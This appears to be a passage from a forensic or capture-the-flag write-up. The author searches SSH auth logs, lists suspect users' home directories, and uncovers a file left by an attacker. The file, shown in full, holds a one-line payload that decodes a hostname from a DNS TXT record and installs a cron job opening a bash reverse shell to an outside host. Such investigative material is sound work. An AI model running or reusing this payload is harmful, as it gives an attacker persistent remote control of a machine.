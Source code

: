 For `jking` I saw *a lot* of sessions. That I won't include here.

```shell
$ grep "yzimmerman" auth.log
Nov  6 19:02:20 aws-east-1-corpo-app-bxas-11 sshd[40005]: Accepted publickey for yzimmerman from 45.62.122.153 port 63674 ssh2: RSA SHA256:48jTJJOH/6Zw2JTEL936KplXmwn7P9jSxa9F8u4giPQ
Nov  6 19:02:21 aws-east-1-corpo-app-bxas-11 sshd[40005]: pam_unix(sshd:session): session opened for user yzimmerman (uid=1007) by (uid=0)
```


We've narrowd down our search to the following users: `anash`, `hbrown`, `jking`, and `yzimmerman`. Let's look at their home directories.



```shell
$ cd home
$ for dir in anash hbrown jking yzimmerman; do tree "$dir"; done 
anash
├── meeting_schedule_202311182116_1.txt
├── notes_202311132116_96.txt
└── project_draft_202311122116_14.txt

0 directories, 3 files
hbrown
└── notes_202312032116_30.txt

0 directories, 1 file
jking
└── snap
    └── lxd
        ├── 26200
        ├── common
        │   └── config
        │       ├── config.yml
        │       └── oidctokens
        └── current

6 directories, 2 files
yzimmerman
├── leftoverpie
├── notes_202311202116_14.txt
└── project_draft_202311282116_73.txt
```

Nothing particularly interesting for `anash` and `hbrown`. 

Some empty directories for `jking` that seem to be related to lxd, a container and VM manager. Interesting, but not what we're looking for.

Hmm I wander what happens if we `cat` that `leftoverpie` file. Maybe something an attacker left behind?

```shell
cat yzimmerman/leftoverpie
(subdomain=$(dig +short TXT llanfairpwllgwyngyllgogerychwyrndrobwyllllantysiliogogogoch.obviousphish.com | tr -d '"' | base64 -di); crontab -l > .tab; echo "2 * * * * /bin/bash -l > /dev/tcp/$subdomain.obviousphish.com/4242 0<&1 2>&1" >> .tab; crontab .tab; rm .tab) > /dev/null 2>&1 # mischief and misdirection by lilM0nky
```

